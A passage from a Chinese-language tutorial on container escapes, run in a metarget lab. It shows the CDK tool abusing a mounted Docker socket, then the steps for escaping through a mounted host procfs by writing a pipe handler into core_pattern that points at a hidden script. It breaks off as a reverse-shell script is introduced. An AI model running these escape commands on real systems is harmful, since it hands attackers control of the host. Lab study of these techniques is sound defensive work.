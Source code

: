 命令执行（逃逸）：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>./cdk run docker-sock-pwn <sock_path> <shell_cmd><br>./cdk run docker-sock-pwn /var/run/docker.sock "touch /host/tmp/pwn-success"<br>``` |

#### [](#322-%E6%8C%82%E8%BD%BD%E4%B8%BB%E6%9C%BA-procfs-%E7%9A%84%E6%83%85%E5%86%B5)3.2.2 挂载主机 procfs 的情况

procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 User Namespace 时。

一般来说，我们不会将宿主机的 procfs 挂载到容器中。然而，有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来。

procfs 中的 `/proc/sys/kernel/core_pattern` 负责配置进程崩溃时内存转储数据的导出方式。从手册中能获得关于内存转储的详细信息，关键信息如下：

> 从 2.6.19 内核版本开始，Linux 支持在`/proc/sys/kernel/core_pattern`中使用新语法。如果该文件中的首个字符是管道符`|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

因此，可以利用上述机制，在挂载了宿主机 procfs 的容器内实现逃逸。

环境搭建：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>./metarget gadget install docker --version 18.03.1<br>./metarget gadget install k8s --version 1.16.5 --domestic<br>./metarget cnv install mount-host-procfs<br>``` |

执行完成后，K8s 集群内 `metarget` 命令空间下将会创建一个名为 `mount-host-procfs` 的 pod。

宿主机的 procfs 在容器内部的挂载路径是 `/host-proc`。

复现：

执行以下命令进入容器：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>kubectl exec -it -n metarget mount-host-procfs /bin/bash<br>``` |

在容器中，首先拿到当前容器在宿主机上的绝对路径：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>cat /proc/mounts \| grep docker<br>``` |

从 `workdir` 可以得到基础路径，结合背景知识可知当前容器在宿主机上的 `merged` 目录绝对路径如下：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121630395.png-water_print](assets/1699410413-0e223b0c858e78a37569206e483f0af7 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121630395.png-water_print")

向容器内 `/host-proc/sys/kernel/core_pattern` 内写入以下内容：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>echo -e "\|/var/lib/docker/overlay2/c7c07b405792a4da3db07f22ae42a35ad00c8946362f0ebe7687bea79785add8/merged/tmp/.x.py \rcore           " > /host-proc/sys/kernel/core_pattern<br>``` |

然后在容器内创建一个反弹 shell 的 `/tmp/.x.py`：
